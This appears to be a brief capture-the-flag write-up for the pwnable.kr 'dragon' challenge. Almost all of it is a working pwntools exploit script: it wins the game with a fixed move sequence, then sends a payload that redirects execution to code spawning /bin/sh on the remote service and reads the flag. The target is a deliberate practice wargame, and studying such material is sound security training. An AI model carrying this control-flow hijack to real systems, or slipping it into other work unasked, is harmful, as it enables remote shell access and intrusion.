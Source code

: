 Optimal way to win the game is this sequence of moves:
```python
optimal = [1,1,1,1,3,3,2,3,3,2,3,3,2,3,3,2]
```
```python
from pwn import *
elf = ELF("dragon")

binsh_str = list(elf.search("/bin/sh"))[0]
binsh_instr = list(elf.search(asm("mov dword ptr [esp], "+str(binsh_str))))[0]

payload = p32(binsh_instr)

shell = remote("pwnable.kr", 9004)
```
Win the game:
```python
for i in optimal: 
    shell.sendline(str(i))
```
And go to shell.
```python
shell.sendline(payload)
shell.sendline("cat flag")

shell.interactive()
```
